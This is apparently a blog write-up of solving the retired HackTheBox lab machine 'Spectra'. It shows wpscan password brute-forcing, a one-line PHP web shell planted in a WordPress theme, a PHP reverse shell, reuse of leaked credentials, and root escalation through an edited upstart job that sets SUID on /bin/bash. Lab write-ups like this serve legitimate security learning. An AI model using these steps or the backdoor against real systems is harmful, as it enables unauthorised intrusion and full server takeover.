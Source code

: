 ```yaml
---
layout: post
title: "HTB - Spectra"
author: "BoT"
tags: "cybersecurity hackthebox"
excerpt_separator: <!--more-->
---
```


Spectra has just retired from HackTheBox! Here's a quick and dirty writeup on my thought process while solving it.

<!--more-->

## HackTheBox - Spectra

**Box**: Spectra\
**IP address**: 10.10.10.229 \
**Local**: e89d27fe195e91██████████████████ \
**Proof**: d44519713b889d5██████████████████ \
**Lesson learnt**:

- If PHP files are blank, view them via `source-view` within the browser.
- Take a closer look into results shown by `linpeas.sh`. Don't skip over them just because you are lazy! Take time to scroll through them.
- If modification based on existing (original) script doesn't work, just rewrite them from scratch.

### Local

#### Enumeration

Nmap scans reveals that Spectra is a rather straight foward box with only 3 open ports: `:22`, `:80`, `:3306`. Since MySQL port cannot be accessed remotely, I decided to focused on the webserver first.

Upon accessing the site, I see hints -- at the source code -- that suggests the need for the box's IP address to be mapped to `spectra.htb`. This prompted me edit `/etc/hosts` as shown below. With this, I can now access 10.10.10.229 with just http://spectra.htb via browser.

![webserver](../assets/202106_htb_spectra/0_webserver_hint.png)
![ip-hostname-mapping](../assets/202106_htb_spectra/1_host_mapping.png)
 
While manually enumerating the webserver, I noticed that `spectra.htb/main` is a WordPress directory. Further enumeration via `wpscans` yield no interesting results except that `administrator` was a valid user.

```bash
wpscan --url http://spectra.htb/main --enumerate u
wpscan --url http://spectra.htb/main --passwords /usr/share/wordlists/rockyou.txt --usernames administrator --wp-content-dir http://10.10.10.229/main/wp-content
```

Switching over to `spectra.htb/testing`, I noticed that this directory is essentially a copy of `/main`. The latter is likely a development environment used for testing before being pushed to production at `/main`.

In this directory, I found `wp-config.php.save`, an interesting file with database credentials. I initially disregarded this file as I didn't view the page via `source-view` and assumed it to be just a blank file. Yikes.

![sql-credentials](../assets/202106_htb_spectra/2_sql_credentials.png)

As `:3306` doesn't allow remote login, I tried using this set of credentials to log into the WordPress platform. `devtest:devteam01` wasn't successful, but `administrator:devteam01` worked just fine.

#### Attack Vector

Now that we have access to WordPress, I tried adding a simple PHP backdoor at `header.php` -- found by navigating to `Appearance > Theme Editor > Theme Header`.

```php
# Simple PHP backdoor script
<?php echo system($_GET["cmd"]); ?>  
```

After several tries, I realised that the edit function doesn't work for themes actively in use. I have to add this backdoor script to an inactive theme, then navigate to `Appearance > Themes` and switch to the modified theme. RCE is now possible!

I confirmed this by navigating to `spectra.htb/main/?cmd=whoami`. Success!

![successful-rce](../assets/202106_htb_spectra/3_rce.png)

Unfortuantely, attempting to trigger a reverse shell via this backdoor didn't work. Instead, I utilized PHP shell from `/usr/share/webshells/php/php-reverse-shell.php` and added it to the `header.php`. Woohoo, a low-privilege shell!

![php-reverse-shell](../assets/202106_htb_spectra/4_php_reverse_shell.png)
![web-shell](../assets/202106_htb_spectra/5_web_shell.png)

#### Escalating to User Shell

While enumerating the webshell with `linpeas.sh`, I found more database credentials. Unfortunately, it doesn't seem to yield anything useful when I enumerated the database. A dead end.

```bash
# Credentials used: development01
mysql -u dev -p
```

![database-credentials](../assets/202106_htb_spectra/6_more_db_credentials.png)
![database-enumeration](../assets/202106_htb_spectra/7_interesting_hash.png)

After a second look into the results obtained from `linpeas.sh`, I found some autologin credentials.

![autologin-credentials](../assets/202106_htb_spectra/8_autologin_credentials.png)

Great! I can now SSH to user with the credentials!

![ssh-katie](../assets/202106_htb_spectra/9_ssh_successful.png)
![local.txt](../assets/202106_htb_spectra/10_local.png)

### Proof

#### Enumeration

Now as Katie, `linpeas.sh` provies us with more information. In particular, `sudo -l` shows that Katie has permission to run `/sbin/initctl` as root without password.

![sudo-permissions-available](../assets/202106_htb_spectra/11_sudo_permission.png)

Katie also has write permission at various test files located in `/etc/init`.

![write-permision-available](../assets/202106_htb_spectra/12_write_permission.png)

A quick research on `initctl` shows that the binary allows a system administrator to communicate and interact with the upstart scripts -- aka 'System Jobs' located in `/etc/init` -- and are run with sudo privilege.

#### Escalation Vector

Seems like editing any `.conf` files within `/etc/init` to include malicious commands -- such as enabling `/bin/bash`'s sticky bits -- would yield me a root shell! With that in mind, I edited `test.conf` with the contents below so that when ran with `sudo /sbin/initctl`, the `/bin/bash` executable will set its permissions to that of the user who created it (root).

```bash
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script
    chmod +s /bin/bash
end script
```

All's left is to trigger the edited script and spawn the root shell!

```bash
sudo /sbin/initctl start test
/bin/bash -p
```

![pe-vector](../assets/202106_htb_spectra/13_pe_vector.png)
![proof.txt](../assets/202106_htb_spectra/14_proof.png)
